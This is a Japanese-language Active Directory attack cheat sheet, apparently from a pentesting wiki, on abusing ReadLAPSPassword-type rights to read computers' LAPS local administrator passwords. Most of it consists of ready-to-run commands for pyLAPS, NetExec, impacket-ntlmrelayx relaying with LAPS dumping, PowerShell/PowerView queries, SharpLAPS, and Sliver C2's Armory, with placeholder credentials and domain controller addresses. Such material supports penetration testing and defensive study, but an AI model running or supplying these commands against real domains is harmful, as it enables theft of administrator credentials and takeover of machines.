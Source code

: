 # ReadLAPSPasswordの悪用

この悪用は、`GenericAll`または`AllExtendedRights`（またはドメイン単位の同期のための`GetChanges`と（`GetChangesInFilteredSet`または`GetChangesAll` の組み合わせ）を持つオブジェクトを、LAPS 用に構成されたターゲットコンピュータ上で制御する場合に実行できる。攻撃者はその後、コンピュータアカウントのLAPSパスワード（すなわち、コンピュータのローカル管理者のパスワード）を読み取ることができる。

## LAPSパスワードを取得する

### Linux

[pyLAPS](https://github.com/p0dalirius/pyLAPS) を使用して LAPS パスワードを取得

```
pyLAPS.py --action get -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --dc-ip "<DC_IP>"
```

[NetExec](https://github.com/Pennyw0rth/NetExec)を使用してLAPSパスワードを取得

```
netexec ldap <DC_IP> -u "<USERNAME>" -p "<PASSWORD>" --module laps
```

[impacket-ntlmrelayx](https://github.com/fortra/impacket)を使用してパスワードを取得

```
impacket-ntlmrelayx -t ldaps://<DC_IP> --dump-laps
```

その他

[LAPSDumper](https://github.com/n00py/LAPSDumper)

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

### Windows

Active Directory PowerShell モジュールを使用してパスワードを取得

```
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)モジュールを使用してパスワードを取得

```
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

```
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)で一連の動作を自動で行う

```
SharpLAPS.exe /user:"<DOMAIN>\<USERNAME>" /pass:"<PASSWORD>" /host:"<DC_IP>"
```

### Sliver C2

Sliver C2にはArmoryというパッケージマネージャによって[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)をターゲットマシンにアップロードせずに使用できる

```
sharplaps /user:<USERNAME> /pass:<PASSWORD> /host:<DC_IP>
```

